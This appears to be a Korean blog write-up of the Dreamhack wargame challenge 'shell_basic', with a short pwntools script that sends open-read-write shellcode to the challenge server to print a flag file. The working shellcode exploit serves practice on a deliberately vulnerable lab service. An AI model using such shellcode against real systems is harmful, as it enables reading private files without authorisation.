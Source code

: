 ```yaml
---
title: "[ Dreamhack ] shell_basic"
description: "execve함수 등을 사용하지 못하는 것을 보니 flag 파일을 읽을 수 있는 쉘코드를 직접 작성해야 한다.pwntools의 shellcraft를 이용하여 쉘 코드를 작성하면 된다.코드를 실행하면 flag를 얻을 수 있다."
date: 2023-03-06T14:12:28.711Z
categories: [Wargame, Dreamhack]
tags: ["dreamhack","pwn"]
---
```

![](/images/8ae8e2e7-cecd-420a-9885-996c8b48ca7c-image.png)

<br>

<br>

### **문제 분석**

---
execve함수 등을 사용하지 못하는 것을 보니 flag 파일을 읽을 수 있는 쉘코드를 직접 작성해야 한다.

<br>

<br>

### **문제 풀이**

---
pwntools의 shellcraft를 이용하여 쉘 코드를 작성하면 된다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 9412)

context.arch = 'amd64'
r = "/home/shell_basic/flag_name_is_loooooong"

shellcode = ''
shellcode += shellcraft.open(r)
shellcode += shellcraft.read('rax', 'rsp', 0x100)
shellcode += shellcraft.write(1, 'rsp', 0x100)

shellcode = asm(shellcode)

p.sendlineafter('shellcode: ', shellcode)
p.recvline()
```

<br>

<br>

![](/images/ead155fd-3f63-44d6-ac99-d083ef4f20fa-image.png)

코드를 실행하면 flag를 얻을 수 있다.